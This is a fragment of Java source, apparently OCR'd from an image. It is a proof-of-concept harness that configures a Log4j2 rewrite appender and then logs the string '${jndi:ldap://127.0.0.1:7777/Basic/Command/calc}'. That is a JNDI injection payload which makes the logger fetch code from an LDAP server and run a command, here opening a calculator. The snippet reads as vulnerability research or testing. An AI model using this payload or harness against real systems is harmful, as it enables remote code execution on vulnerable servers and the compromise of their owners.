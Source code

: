 ```
        };
        RewritePolicy rewritePolicy = PropertiesRewritePolicy.createPolicy(config, properties);

        RewriteAppender rewriteAppender = RewriteAppender.createAppender(
                "rewriteAppender",
                "false",
                refs,
                config,
                rewritePolicy,
                ThresholdFilter.createFilter(Level.ALL, null, null)
        );
        rewriteAppender.start();


        config.addAppender(consoleAppender);
        config.addAppender(rewriteAppender);
        context.updateLoggers();

        LogEvent logEvent = new MutableLogEvent(new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), null);
        rewriteAppender.append(logEvent);

        rewriteAppender.stop();
        consoleAppender.stop();
    }
```
